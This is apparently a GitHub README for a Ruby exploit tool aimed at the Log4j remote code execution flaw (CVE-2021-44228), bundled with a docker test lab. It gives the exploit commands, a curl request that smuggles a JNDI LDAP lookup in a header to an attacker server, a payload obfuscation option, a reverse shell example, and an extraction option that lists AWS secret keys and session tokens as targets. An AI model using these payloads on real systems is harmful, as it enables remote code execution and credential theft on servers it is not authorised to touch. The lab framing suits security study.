



## Log4j RCE Vulnerability (CVE-2021-44228)
This is for educational purposes only. This contains docker files to create the testing environment for this exploit

### Building and running the testing environment
Start the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app) and test server
```
docker-compose up
```
### Exploitation
Open a new terminal and get an access to the test server
```
docker exec -it log4j_attacker bash
```
#### Full Exploitation
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name'
```
##### Example:


#### Serve the payload
Start the HTTP and LDAP Servers
```
./log4j.rb -t http://10.10.10.2:8080 -a 10.10.10.3  -l 1389 -h 1010 -c 'touch /dev/shm/vulnerable' -i 'sys:os.name' -s
```

Open a new terminal in the test server
```
docker exec -it log4j_attacker bash
# inside the test server
curl http://10.10.10.2:8080 -H 'X-Api-Version: ${jndi:ldap://10.10.10.3:1389/${sys:os.name}}'
```
##### Example:
Reverse shell


Getting information from callback(Note: `-c 'touch /dev/shm/vulnerable' is not needed`):


### Options
```
# ./log4j.rb --help
Usage: ./log4j.rb -t [Target] -a [Attacker IP] -l [LDAP Port] -h [HTTP Port]

Options:
    -t, --target Target              Target Host to check. Default: http://127.0.0.1:8080
    -a, --attacker Attacker          IP of LDAP and HTTP servers. Default: 0.0.0.0
    -l, --ldap LDAP_PORT             LDAP Port to use. Default: 53
    -h, --http HTTP_PORT             HTTP Port to use. Default: 1010
    -c, --command Command            Command to execute. Default: "touch /dev/shm/log4j_vulnerable"
    -s, --serve_only                 [OPTIONAL] Starts HTTP and LDAP Server, then send JNDI payload manually
    -i, --info_extract Info_key      [OPTIONAL] Extracts information from the target using log4j keywords. Default is none. Possible inputs but not limited to below:
                                        hostName
                                        sys:user.name
                                        sys:user.home
                                        sys:user.dir
                                        sys:java.home
                                        sys:java.vendor
                                        sys:java.version
                                        sys:java.vendor.url
                                        sys:java.vm.version
                                        sys:java.vm.vendor
                                        sys:java.vm.name
                                        sys:os.name
                                        sys:os.arch
                                        sys:os.version
                                        env:JAVA_VERSION
                                        env:AWS_SECRET_ACCESS_KEY
                                        env:AWS_SESSION_TOKEN
                                        env:AWS_SHARED_CREDENTIALS_FILE
                                        env:AWS_WEB_IDENTITY_TOKEN_FILE
                                        env:AWS_PROFILE
                                        env:AWS_CONFIG_FILE
                                        env:AWS_ACCESS_KEY_ID
    -o, --obfuscate                  [OPTIONAL] Obfuscates the JNDI Payload
        --help                       Print options

```
### Testing outside the container
- Make sure to do `bundle install` first to install the dependency gems

### Credits
- [christophetd](https://github.com/christophetd) for the [vulnerable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [alexandre-lavoie's](https://github.com/alexandre-lavoie) [code](https://github.com/alexandre-lavoie/python-log4rce) for my reference while working on this project

### Note
This is for educational purposes only. Please use responsibly if you want to test it.
